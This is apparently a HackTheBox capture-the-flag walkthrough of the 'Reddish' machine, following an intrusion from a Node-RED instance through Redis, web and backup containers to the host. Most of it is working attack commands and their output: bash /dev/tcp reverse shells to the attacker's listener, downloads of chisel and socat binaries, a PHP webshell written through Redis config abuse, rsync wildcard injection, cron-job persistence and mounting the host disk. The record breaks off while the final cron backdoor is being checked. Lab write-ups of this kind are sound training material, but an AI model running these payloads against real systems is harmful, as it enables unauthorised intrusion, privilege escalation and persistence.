

# Reddish

```bash
TARGET=10.10.10.94
```

```bash
$ sudo  nmap -sT -p- --min-rate 5000 $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 15:11 PDT
Warning: 10.10.10.94 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.94
Host is up (0.092s latency).
Not shown: 59145 closed tcp ports (conn-refused), 6389 filtered tcp ports (no-response)
PORT     STATE SERVICE
1880/tcp open  vsat-control

Nmap done: 1 IP address (1 host up) scanned in 61.01 seconds
```

```bash
$ sudo nmap -v -sC -sV $TARGET -p 1880

PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js Express framework
|_http-title: Error
| http-methods: 
|_  Supported Methods: POST GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: 818DD6AFD0D0F9433B21774F89665EEA

```

```bash
$ curl -s -X GET http://10.10.10.94:1880/                                                  
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /</pre>
</body>
</html>
```

```bash
$ curl -s -X POST http://10.10.10.94:1880/
{"id":"42b192f0baf72f65da10ac5016c0f636","ip":"::ffff:10.10.14.8","path":"/red/{id}"}
```


```bash
$ curl -s -X GET http://10.10.10.94:1880/red/42b192f0baf72f65da10ac5016c0f636
Moved Permanently. Redirecting to /red/42b192f0baf72f65da10ac5016c0f636/
```


> Import the following flow after changing the IP where the listener will be located.

- [Shell Flow](node-red_revshell.json)


```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
```

Now Deploy the flow.


```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 55446
id
uid=0(root) gid=0(root) groups=0(root)
```

## Node-RED container - 172.18.0.2 172.19.0.3

Lets try to get a more consistent shell.

```bash
$ rlwrap -cAr nc -nlvp 9002
listening on [any] 9002 ...
```

```bash
[object Object]bash -c "bash -i > /dev/tcp/10.10.14.8/9002 0>&1" &
```

```bash
$ rlwrap -cAr nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 50056
id
uid=0(root) gid=0(root) groups=0(root)
```

Now stabilize the shell.

```bash
script /dev/null -c bash
(ctrl+z)
stty raw -echo; fg
reset xterm (press Enter)
stty rows 39 columns 155 (adapt this to your stty size)
export TERM=xterm
export SHELL=bash
```

```bash
root@nodered:/node-red# uname -a
uname -a
Linux nodered 4.15.0-213-generic #224-Ubuntu SMP Mon Jun 19 13:30:12 UTC 2023 x86_64 GNU/Linux
```

```bash
root@nodered:/node-red# cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
```

```bash
root@nodered:/node-red# pwd
pwd
/node-red

root@nodered:/node-red# hostname 
hostname 
nodered

root@nodered:/node-red# hostname -I
hostname -I
172.19.0.3 172.18.0.2
```

```bash
root@nodered:/node-red# cat /proc/net/arp
cat /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
172.18.0.1       0x1         0x2         02:42:1d:02:97:ab     *        eth0

root@nodered:/node-red# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth1@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

After trying a few options to transfer files to the current target, I found out that I good approach would be use an oneliner Perl to accomplish it.

I started a webserver on my Kali

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
```

And moved to the target, a bash script to enumerate hosts.

```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo -e "Provide the first 3 octets of the network to scan\nusage: $0 192.168.56"
else
  network="$1"
  echo -e "\n--- SCAN ON HOST $network.(1..255) ---"
  for host in {1..255}; do
  ( 
    ping -c 1 -w 1 $network.$host >/dev/null 2>&1 && echo -e "\t[+] Active Host $network.$host" 
  ) &
  done
  wait
  echo "--- Finished scan ---"
fi
```

```bash
root@nodered:/tmp# perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://10.10.14.8:8181/scan_hosts.sh", "scan_hosts.sh");'
"http://10.10.14.8:8181/scan_hosts.sh", "scan_hosts.sh");'or(
```

To check if the transfer worked well, I ran md5sum on my local version and in the transfer one to see if the hashes match.

```bash
$ md5sum scan_hosts.sh 
153ad569ada63a2d3114cbd5b31cd08f  scan_hosts.sh
```

```bash
root@nodered:/tmp# md5sum scan_hosts.sh
md5sum scan_hosts.sh
153ad569ada63a2d3114cbd5b31cd08f  scan_hosts.sh
```

I then scan the 2 networks we see on this target.

```bash
root@nodered:/tmp# bash scan_hosts.sh 172.18.0
bash scan_hosts.sh 172.18.0

--- SCAN ON HOST 172.18.0.(1..255) ---
        [+] Active Host 172.18.0.2
        [+] Active Host 172.18.0.1
--- Finished scan ---

root@nodered:/tmp# bash scan_hosts.sh 172.19.0
bash scan_hosts.sh 172.19.0

--- SCAN ON HOST 172.19.0.(1..255) ---
        [+] Active Host 172.19.0.3
        [+] Active Host 172.19.0.4
        [+] Active Host 172.19.0.2
        [+] Active Host 172.19.0.1
--- Finished scan ---
```

To scan the port of the IPs, we could write a small script or use something small and already available like this [one here](https://github.com/xffsec/netscan).

```bash
root@nodered:/tmp# bash netscan.sh -P -t 172.19.0 -R 2-4 -r 1-10000
bash netscan.sh -P -t 172.19.0 -R 2-4 -r 1-10000

--- SCANNING PORTS ON EACH HOST - 172.19.0.2-4:1-10000 ---

[+] 172.19.0.2:6379
[+] 172.19.0.3:1880
[+] 172.19.0.4:80

--- Finished scan ---
```

We have a lot of going on here and to best visualize what I believe we have, I created the following on [https://app.diagrams.net/](https://app.diagrams.net/).


I believe we will need to use a proxy chain tool to help investigate it here.

```bash
root@nodered:/tmp# perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://10.10.14.8:8181/chisel", "chisel");'
"http://10.10.14.8:8181/chisel", "chisel");'w; $http->mirror(
```

```bash
root@nodered:/tmp# chmod +x chisel
chmod +x chisel
```

```bash
$ /opt/chisel/v1.9.1/chisel server -p 8000 --reverse          
2024/08/22 22:50:23 server: Reverse tunnelling enabled
2024/08/22 22:50:23 server: Fingerprint gr2BQ7AgYD0oDhBTwYEV9D7J0OkTpEp6TEbbwS6RrNk=
2024/08/22 22:50:23 server: Listening on http://0.0.0.0:8000
```

```bash
root@nodered:/tmp# ./chisel client 10.10.14.8:8000 R:socks
./chisel client 10.10.14.8:8000 R:socks
2024/08/23 05:52:26 client: Connecting to ws://10.10.14.8:8000
2024/08/23 05:52:27 client: Connected (Latency 99.253445ms)
```

```bash
$ /opt/chisel/v1.9.1/chisel server -p 8000 --reverse          
2024/08/22 22:50:23 server: Reverse tunnelling enabled
2024/08/22 22:50:23 server: Fingerprint gr2BQ7AgYD0oDhBTwYEV9D7J0OkTpEp6TEbbwS6RrNk=
2024/08/22 22:50:23 server: Listening on http://0.0.0.0:8000
2024/08/22 22:52:22 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

```bash
$ cat /etc/proxychains4.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5         127.0.0.1 1080
#socks5         127.0.0.1 1081
#http           127.0.0.1 8080
```

## Redis container - 172.19.0.2

```bash
$ proxychains nmap -sT -p 6379 -Pn -n 172.19.0.2           
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 23:01 PDT
Nmap scan report for 172.19.0.2
Host is up (0.29s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
```

```bash
$ proxychains redis-cli -h 172.19.0.2
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
172.19.0.2:6379>
```

## Web server container - 172.19.0.4

```bash
$ proxychains nmap -sT -p 80 -Pn -n 172.19.0.4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 23:01 PDT
Nmap scan report for 172.19.0.4
Host is up (0.29s latency).

PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```


The source code of the page shows some interesting js functions.


```html
...
<script type="text/javascript">
                $(document).ready(function () {
                        incrCounter();
                    getData();
                });

                function getData() {
                    $.ajax({
                        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=get hits",
                        cache: false,
                        dataType: "text",
                        success: function (data) {
                                    console.log("Number of hits:", data)
                        },
                        error: function () {
                        }
                    });
                }

                function incrCounter() {
                    $.ajax({
                        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=incr hits",
                        cache: false,
                        dataType: "text",
                        success: function (data) {
                        console.log("HITS incremented:", data);
                        },
                        error: function () {
                        }
                    });
                }

                /*
                    * TODO
                    *
                    * 1. Share the web folder with the database container (Done)
                    * 2. Add here the code to backup databases in /f187a0ec71ce99642e4f0afbd441a68b folder
                    * ...Still don't know how to complete it...
                */
                function backupDatabase() {
                        $.ajax({
                                url: "8924d0549008565c554f8128cd11fda4/ajax.php?backup=...",
                                cache: false,
                                dataType: "text",
                                success: function (data) {
                                    console.log("Database saved:", data);
                                },
                                error: function () {
                                }
                        });
                }
</script>
...
```

Trying to access the backup functions times out, and revel to us the path the files are located on the error msg.


```bash
/var/www/html/8924d0549008565c554f8128cd11fda4/
```

On [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) we see a few options to upload a webshell to redis and access it from the web server.

We prepare a shell.php file

```bash
$ cat shell.php                                                     


<?php
    system($_REQUEST['cmd']);
?>
```

And we also prepare a script to push the shell to redis.

```bash
$ cat pwn_redis-cli.sh 
#!/bin/bash

proxychains redis-cli -h 172.19.0.2 flushall
cat shell.php | proxychains redis-cli -h 172.19.0.2 -x set crackit
proxychains redis-cli -h 172.19.0.2 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
proxychains redis-cli -h 172.19.0.2 config set dbfilename "shell.php"
proxychains redis-cli -h 172.19.0.2 save
```

```bash
$ bash pwn_redis-cli.sh                                                        
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
OK
```


Playing a bit with the shell we noticed that it can talk back to the node-RED container, but it cannot talk back to our kali.

Because of that we need to use again the node-RED as a jump box, and we are using socat to help us here.

Searching on the internet we find another static binary that we can use on this github page - [socat static](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

```bash
root@nodered:/tmp# perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://10.10.14.8:8181/socat-static", "socat-static");'
"http://10.10.14.8:8181/socat-static", "socat-static");'rror(
```

```bash
root@nodered:/tmp# chmod +x socat-static
chmod +x socat-static
```

Redirect any connection to port `5555` on node-Red to port `5555` on my Kali.

```bash
root@nodered:/tmp# /tmp/socat-static tcp-listen:5555,fork tcp:10.10.14.8:5555 &
/tmp/socat-static tcp-listen:5555,fork tcp:10.10.14.8:5555 &
[1] 1708
```

To play a little and understand more, I used the static socat on the kali machine to see of the connection from node-red would arrive on port 5555.

For that I initiate socat as a listener and instructed it to print the connections on the terminal and keep listening.

```bash
$ socat TCP-LISTEN:5555,reuseaddr,fork SYSTEM:"echo 'Connection from: $SOCAT_PEERADDR:$SOCAT_PEERPORT'; sleep 10"
```

On node-red I tested the connection to its on IP and localhost (only to play with it).

```bash
root@nodered:/tmp# echo > /dev/tcp/172.19.0.3/5555
echo > /dev/tcp/172.19.0.3/5555

root@nodered:/tmp# echo > /dev/tcp/127.0.0.1/5555
echo > /dev/tcp/127.0.0.1/5555
```

Both arrived fine on my kali.

```bash
$ socat TCP-LISTEN:5555,reuseaddr,fork SYSTEM:"echo 'Connection from: $SOCAT_PEERADDR:$SOCAT_PEERPORT'; sleep 10" 
2024/08/23 02:04:35 socat[473838] W exiting on signal 15
2024/08/23 02:06:53 socat[474995] W exiting on signal 15
```

Now I need to test it direct on the shell on the webserver.


```bash
bash -c 'echo > /dev/tcp/172.19.0.3/5555'
```

```bash
http://172.19.0.4/8924d0549008565c554f8128cd11fda4/shell.php?cmd=bash%20%2Dc%20%27echo%20%3E%20%2Fdev%2Ftcp%2F172%2E19%2E0%2E3%2F5555%27
```


```bash
$ socat TCP-LISTEN:5555,reuseaddr,fork SYSTEM:"echo 'Connection from: $SOCAT_PEERADDR:$SOCAT_PEERPORT'; sleep 10" 
2024/08/23 02:04:35 socat[473838] W exiting on signal 15
2024/08/23 02:06:53 socat[474995] W exiting on signal 15
2024/08/23 02:15:32 socat[479579] W exiting on signal 15   <<<<=====
```

I believe now we know the redirect works and we can try to set a `nc` listener on our kali to try to get a reverse shell.

```bash
$ rlwrap -cAr nc -nlvp 5555
listening on [any] 5555 ...
```


```bash
bash -c 'bash -i >& /dev/tcp/172.19.0.3/5555 0>&1'
```

```bash
bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F172%2E19%2E0%2E3%2F5555%200%3E%261%27
```


```bash
$ rlwrap -cAr nc -nlvp 5555      
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 49728
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@www:/var/www/html/8924d0549008565c554f8128cd11fda4$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After some enumeration, I noticed that `cron` is running on the container and that there is a `backup.sh` script scheduled to run as `root` every 3 min.

```bash
www-data@www:/$ ps -ef
ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 Aug22 ?        00:00:00 /bin/sh -c service cron start &&
root        11     1  0 Aug22 ?        00:00:00 /usr/sbin/cron
root        12     1  0 Aug22 ?        00:00:02 apache2 -DFOREGROUND
...
```

```bash
www-data@www:/$ ls -lha /etc/cron.d
ls -lha /etc/cron.d
total 16K
drwxr-xr-x 1 root root 4.0K Jul 15  2018 .
drwxr-xr-x 1 root root 4.0K Jul 15  2018 ..
-rw-r--r-- 1 root root  102 Jun 11  2015 .placeholder
-rw-r--r-- 1 root root   38 May  4  2018 backup
```

```bash
www-data@www:/$ cat /etc/cron.d/backup
cat /etc/cron.d/backup
*/3 * * * * root sh /backup/backup.sh
```

```bash
www-data@www:/$ cat /backup/backup.sh

cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

It seems the script is connecting to a host called `backup` on port `873`.

The commands `nslookup` and `dig` are not available on the machine. `Ping` seems to be available only to the `root` user.

Using `/dev/tcp/<HOST>/<PORT>` we see that the `backup` host is really responding on port `873`.

```bash
www-data@www:/$ echo > /dev/tcp/backup/873
echo > /dev/tcp/backup/873

www-data@www:/$ echo > /dev/tcp/backup/876
echo > /dev/tcp/backup/876
bash: connect: Connection refused
bash: /dev/tcp/backup/876: Connection refused
```

Listing the IPs configured on the container we see that we have 2 nics and an new IP range we didn't see before - `10.20.0.3`

```bash
www-data@www:/$ ip a | grep inet
ip a | grep inet
    inet 127.0.0.1/8 scope host lo
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth0
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth1
```

On `arp` we see the IP `172.20.0.2`.

```bash
www-data@www:/$ cat /proc/net/arp
cat /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
172.19.0.2       0x1         0x2         02:42:ac:13:00:02     *        eth0
172.19.0.3       0x1         0x2         02:42:ac:13:00:03     *        eth0
172.20.0.2       0x1         0x2         02:42:ac:14:00:02     *        eth1
```

And if we test the port `873` on it, it returns as responding.

```bash
www-data@www:/$ echo > /dev/tcp/172.20.0.2/873
echo > /dev/tcp/172.20.0.2/873
```

It would like something like this:



Ok, we kind of know now that `backup` seems to be `172.20.0.2`. It does not make a lot of difference, but it is good to know.

Back to the script we see an interesting line with a wild card that we may be able to take advantage of.

```bash
...
rsync -a *.rdb rsync://backup:873/src/rdb/
...
```

From what it looks like, we rename a `.rdb` file to include some valid `rsync` parameters and it will run. To make things better for us, `rsync` seems to have a parameter that execute commands.

```bash
$ man rsync
...
    --rsh=COMMAND, -e        specify the remote shell to use
...
```

We could create a file called `-e sh shell.rdb` and it may be replaced by the wildcard as valid parameter. It would be interpreted as something like the following. The technique is detailed [here](https://www.exploit-db.com/papers/33930).

```bash
rsync -a -e sh shell.rdb rsync://backup:873/src/rdb/
```

Lets play with this strategy and try to get a revese shell as root here. For that lets set another port forwarder on `node-RED` with `socat` redirecting the traffic to our Kali.

```bash
root@nodered:/tmp# /tmp/socat-static tcp-listen:6666,fork tcp:10.10.14.8:6666 &
/tmp/socat-static tcp-listen:6666,fork tcp:10.10.14.8:6666 &
[2] 1725
```

And start a listener on Kali.

```bash
$ rlwrap -cAr nc -nlvp 6666
listening on [any] 6666 ...
```

Now we add our payload on a `.rdb` file.

```bash
www-data@www:/tmp$ echo "bash -c 'bash -i >& /dev/tcp/172.19.0.3/6666 0>&1' &" > shell.rdb
<sh -c 'bash -i >& /dev/tcp/172.19.0.3/6666 0>&1' &" > shell.rdb
```

```bash
www-data@www:/tmp$ cat shell.rdb
bash -c 'bash -i >& /dev/tcp/172.19.0.3/6666 0>&1' &
```

With all ready, we now copy our file to the directory the script is checking.

```bash
www-data@www:/tmp$ cp shell.rdb /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/shell.rdb
<.rdb /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/shell.rdb  
```

Then we create a file with the trick name.

```bash
www-data@www:/tmp$ touch /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e\ sh\ shell.rdb
<ar/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e\ sh\ shell.rdb
```

```bash
www-data@www:/tmp$ ls -lha /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
ls -lha /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
total 12K
-rw-r--r-- 1 www-data www-data    0 Aug 24 06:24 -e sh shell.rdb
drwxr-xr-x 2 www-data www-data 4.0K Aug 24 06:24 .
drwxr-xr-x 5 root     root     4.0K Jul 15  2018 ..
-rw-r--r-- 1 www-data www-data   53 Aug 24 06:24 shell.rdb
```

After a couple of minutes we get a shell.

```bash
$ rlwrap -cAr nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 59666
bash: cannot set terminal process group (8987): Inappropriate ioctl for device
bash: no job control in this shell
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Finally we get our 1st flag.

```bash
root@www:/tmp# cat /home/somaro/user.txt
cat /home/somaro/user.txt
6f5ab9...
```

## Backup container - 172.20.0.2

Using `rsync` I have access to `backup` container.

```bash
root@www:/tmp# rsync rsync://backup:873/src
rsync rsync://backup:873/src
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rwxr-xr-x              0 2018/05/04 21:01:30 .dockerenv
-rwxr-xr-x            100 2018/05/04 19:55:07 docker-entrypoint.sh
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
drwxr-xr-x          4,096 2018/07/15 17:42:39 bin
drwxr-xr-x          4,096 2018/07/15 17:42:38 boot
drwxr-xr-x          4,096 2018/07/15 17:42:39 data
drwxr-xr-x          3,640 2024/08/22 21:39:22 dev
drwxr-xr-x          4,096 2018/07/15 17:42:39 etc
drwxr-xr-x          4,096 2018/07/15 17:42:38 home
drwxr-xr-x          4,096 2018/07/15 17:42:39 lib
drwxr-xr-x          4,096 2018/07/15 17:42:38 lib64
drwxr-xr-x          4,096 2018/07/15 17:42:38 media
drwxr-xr-x          4,096 2018/07/15 17:42:38 mnt
drwxr-xr-x          4,096 2018/07/15 17:42:38 opt
dr-xr-xr-x              0 2024/08/22 21:39:22 proc
drwxr-xr-x          4,096 2018/07/15 17:42:39 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2024/08/22 21:39:23 run
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2024/08/24 03:37:14 sys
drwxrwxrwt          4,096 2024/08/24 07:07:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var
```

And I can upload files to it.

```bash
root@www:/tmp# rsync shell.rdb rsync://backup:873/src/tmp
rsync shell.rdb rsync://backup:873/src/tmp

root@www:/tmp# rsync rsync://backup:873/src/tmp/
rsync rsync://backup:873/src/tmp/
drwxrwxrwt          4,096 2024/08/24 07:10:01 .
-rw-r--r--             53 2024/08/24 07:09:50 shell.rdb
```

Ok! There are too many hops here to try to connect back direct to our Kali. Instead I believe would be easier to transfer `socat` to the web server, and try to get a reverse shell there.

To do that, we can again use `socat` on `nodered` to redirect a port to the port we have our web server serving files on Kali.

```bash
root@nodered:/tmp# /tmp/socat-static tcp-listen:8181,fork tcp:10.10.14.8:8181 &
/tmp/socat-static tcp-listen:8181,fork tcp:10.10.14.8:8181 &
[3] 1733
```

Then, from the `www` web server, we use our perl oneliner to download the `socat-static`.

```bash
root@www:/tmp# perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://172.19.0.3:8181/socat-static", "socat-static");'
<tp://172.19.0.3:8181/socat-static", "socat-static");'
```

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
...
10.10.10.94 - - [23/Aug/2024 14:41:03] "GET /socat-static HTTP/1.1" 200 -
```

Then we grant it execution permission.

```bash
root@www:/tmp# chmod +x socat-static
chmod +x socat-static
```

Now, we can try to build a cron job on the `backup` server to connect back to `socat` on `www`.

First, lets create a shell script with our payload.

```bash
root@www:/tmp# echo "bash -c 'bash -i >& /dev/tcp/172.20.0.3/9010 0>&1' &" > shell.sh
<c 'bash -i >& /dev/tcp/172.20.0.3/9010 0>&1' &" > shell.sh
```

```bash
root@www:/tmp# cat /tmp/shell.sh
bash -c 'bash -i >& /dev/tcp/172.20.0.3/9010 0>&1' &
```

And transfer it to the tmp directory on `backup`.

```bash
root@www:/tmp# rsync -a shell.sh rsync://backup:873/src/tmp/
rsync -a shell.sh rsync://backup:873/src/tmp/
```

Then we create the cron job file calling our scritp.

```bash
root@www:/tmp# echo '* * * * * root sh /tmp/shell.sh' > shell
echo '* * * * * root sh /tmp/shell.sh' > shell
```

```bash
root@www:/tmp# cat /tmp/shell
* * * * * root sh /tmp/shell.sh
```

And transfer it to the `cron.d` directory on `backup`.

```bash
root@www:/tmp# rsync -a shell rsync://backup:873/src/etc/cron.d/
rsync -a shell rsync://backup:873/src/etc/cron.d/
```

Now we start our `socat` listener on `www`.

```bash
root@www:/tmp# /tmp/socat-static TCP-LISTEN:9010 STDOUT
/tmp/socat-static TCP-LISTEN:9010 STDOUT
```

In a minute we get the shell.

```bash
root@www:/tmp# /tmp/socat-static TCP-LISTEN:9010 STDOUT
/tmp/socat-static TCP-LISTEN:9010 STDOUT
bash: cannot set terminal process group (8498): Inappropriate ioctl for device
bash: no job control in this shell

root@backup:~# id
uid=0(root) gid=0(root) groups=0(root)

root@backup:~# hostname
backup
```

## Reddish - shell

During the enumeration here, we noticed that one this container we seem to be able to see more things on `/dev` directory.

```bash
root@backup:~# ls /dev/ | wc -l
180
```

Compared with the `www` container

```bash
root@www:/tmp# ls /dev/ | wc -l
15
```

It seems we may have access to the local disks of the `reddish` machine here.

```bash
root@backup:~# ls -lha /dev/sda*

brw-rw---- 1 root disk 8, 0 Aug 22 21:39 /dev/sda
brw-rw---- 1 root disk 8, 1 Aug 22 21:39 /dev/sda1
brw-rw---- 1 root disk 8, 2 Aug 22 21:39 /dev/sda2
brw-rw---- 1 root disk 8, 3 Aug 22 21:39 /dev/sda3
```

```bash
root@backup:~# mount /dev/sda2 /mnt
mount /dev/sda2 /mnt
```

```bash
root@backup:~# ls -lha /mnt

total 128K
drwxr-xr-x  23 root root 4.0K Dec  6  2023 .
drwxr-xr-x   1 root root 4.0K Jul 15  2018 ..
drwxr-xr-x   2 root root  12K Dec  6  2023 bin
drwxr-xr-x   2 root root 4.0K Jul 15  2018 boot
drwxr-xr-x   4 root root 4.0K Jul 15  2018 dev
drwxr-xr-x 100 root root  12K Dec  6  2023 etc
drwxr-xr-x   5 root root 4.0K Apr  9  2021 home
lrwxrwxrwx   1 root root   34 Dec  6  2023 initrd.img -> boot/initrd.img-4.15.0-213-generic
lrwxrwxrwx   1 root root   33 Dec  6  2023 initrd.img.old -> boot/initrd.img-4.4.0-130-generic
drwxr-xr-x  24 root root 4.0K Dec  6  2023 lib
drwxr-xr-x   2 root root 4.0K Dec  6  2023 lib64
drwx------   2 root root  16K Apr  1  2018 lost+found
drwxr-xr-x   3 root root 4.0K Jul 15  2018 media
drwxr-xr-x   2 root root 4.0K Jul 15  2018 mnt
drwxr-xr-x   3 root root 4.0K Jul 15  2018 opt
drwxr-xr-x   2 root root 4.0K Jul 15  2018 proc
drwx------   5 root root 4.0K Aug 22 21:44 root
drwxr-xr-x   2 root root 4.0K Jul 15  2018 run
drwxr-xr-x   2 root root  12K Dec  6  2023 sbin
drwxr-xr-x   2 root root 4.0K Jul 15  2018 snap
drwxr-xr-x   2 root root 4.0K Jul 15  2018 srv
drwxr-xr-x   2 root root 4.0K Jul 15  2018 sys
drwxrwxrwt  11 root root 4.0K Aug 23 22:52 tmp
drwxr-xr-x  10 root root 4.0K Jul 15  2018 usr
drwxr-xr-x  13 root root 4.0K Jul 15  2018 var
lrwxrwxrwx   1 root root   31 Dec  6  2023 vmlinuz -> boot/vmlinuz-4.15.0-213-generic
lrwxrwxrwx   1 root root   30 Dec  6  2023 vmlinuz.old -> boot/vmlinuz-4.4.0-130-generic
```

With access to the main partition and could use the same cron job strategy here to, this time, connect back direct to our Kali.

```bash
root@backup:~# echo "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9008 0>&1' &" > /mnt/tmp/shell.sh
<c 'bash -i >& /dev/tcp/10.10.14.8/9008 0>&1' &" > /mnt/tmp/shell.sh
```

```bash
root@backup:~# cat /mnt/tmp/shell.sh
bash -c 'bash -i >& /dev/tcp/10.10.14.8/9008 0>&1' &
```

Then the cron job file.

```bash
root@backup:~# echo '* * * * * root sh /tmp/shell.sh' > /mnt/etc/cron.d/shell
echo '* * * * * root sh /tmp/shell.sh' > /mnt/etc/cron.d/shell
```

```bash
root@backup:~# cat /mnt/etc/cron.d/shell
* * * * * root sh /tmp/shell.sh
```

```bash
root@backup:~# ls -lha /mnt/etc/cron.d/shell
